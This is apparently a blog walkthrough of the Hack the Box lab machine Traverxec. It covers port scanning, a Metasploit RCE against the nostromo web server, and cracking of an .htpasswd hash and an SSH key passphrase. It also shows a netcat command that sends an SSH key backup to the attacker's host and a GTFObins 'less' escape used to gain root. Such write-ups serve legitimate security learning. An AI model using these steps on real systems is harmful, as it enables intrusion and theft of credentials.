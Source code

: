 +++
author = "Nick"
categories = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
date = 2020-04-11T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/11/trav.png"
slug = "hack-the-box-traverxec"
summary = "Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in"
tags = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
title = "Hack the Box - Traverxec"

+++


Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in.

As we do with every box, we start with our initial ```nmap```: ```nmap -sC -sV -oA initial_scan 10.10.10.165```

Our results come back as pretty limited. We'll run the scan again with the ```-p-``` options to enumerate all ports. Turns out there was no new ports open. Here are the results:

```
Nmap scan report for 10.10.10.165
Host is up (0.061s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|_  256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 213.48 seconds
```
A quick ```searchsploit``` on ```nostromo``` shows that there is a RCE payload we might be able to use. We'll head over to see what is being hosted on port 80. We see a pretty standard website. We have a contact form that seemingly doesn't work. So our basic exploration hasn't found anything useful. We'll boot up ```gobuster``` and see what it can find.

While that runs we'll load up ```metasploit``` and see if the RCE payload can be of use. We will find the exploit and set it's requirements. We need to set ```RHOST``` and ```LHOST```.

{{< figure src="__GHOST_URL__/content/images/2019/11/trav-msfpl.gif" caption="Laggy shell :(" >}}

Once we run the exploit we gain a shell as ```www-data```. We quickly create a proper shell with python and start enumerating. We download a copy of ```linenum``` or ```linpeas``` from our ```SimpleHTTPServer``` and let it go. One of the first things that stands out is that we have a ```.htpassword```. We can take this hash and load it into ```hashcat``` and with some luck, crack it.

```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked_hash.txt```

This will attempt to crack the hash and give us an output. Once its done we see the cracked password of ```Nowonly4me```. Now given the type of access this is restricting, we'll need to apply this authentication type to an ```HTTP``` request. Time to look at the [```nhttpd``` documentation](http://www.nazgul.ch/dev/nostromo_man.html). We see that under the ```HOMDIRS``` section, places can essentially be aliased with this setting. Our configs tell us that we are mapping ```/home```. So given this example, we can go to ```http://10.10.10.165/~david/``` and should see some content.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-60.png" >}}

The above is what we are greeted with when we do. Awesome, so now we can hopfully append an authentication to the request and have some access. However even with appending authentication to the requests I wasn't able to gain the access in the way I thought. So when I went back to re-read the config and documentation, it seems like ```public_www``` might also be mapped to David's home directory. Now when we path in David's home directory we can't list any files, however, that doesn't mean they aren't there. So if we try to path to ```public_www``` we see it is indeed a valid path.

{{< figure src="__GHOST_URL__/content/images/2019/11/hidden-1.gif" >}}

We see that there is a file called ```backup-ssh-identity-files.tar```. We want to download this file, so we'll transfer it back to our machine. We'll use a ```nc``` file transfer method:

On our attacking machine we'll setup a listener: ```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

Then on our target machine we'll send the file over ```cat backup-ssh-identity-files.tar | nc 10.10.14.5 9999```

Once we get the file we can unzip it with ```gunzip```. We get a directory called ```home```. Which is a copy of the home directory. Inside we have our ```SSH``` keys. Now we need to convert the ```id_rsa``` to a crackable format. We'll use ```ssh2john```.

```ssh2john ./id_rsa > david.hash```

We'll then run it through ```John```:

```john --wordlist=/usr/share/wordlists/rockyou.txt david.hash```

Almost immediately we see a potential match, ```hunter```.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-61.png" >}}

So we try this password with our key and we get in!

{{< figure src="__GHOST_URL__/content/images/2019/11/image-62.png" >}}

One we're in we see that there are some scripts in ```bin``` file in David's home directory. When we parse through the file we see that we are calling ```journalctl``` as sudo. We might be able to append to this call and break out of our shell to get root. Now this is a pretty CTF type thing and took me a while, even though I was staring at [```GTFObins```](https://gtfobins.github.io/gtfobins/less/) for quite some time. We issue the following:

```VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile``` 

We can append this to the last line being called in the script and gain our access as root.

{{< figure src="__GHOST_URL__/content/images/2019/11/trav-root.gif" >}}

There we have it, our root flag! This last bit was CTF like but still fun none the less!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

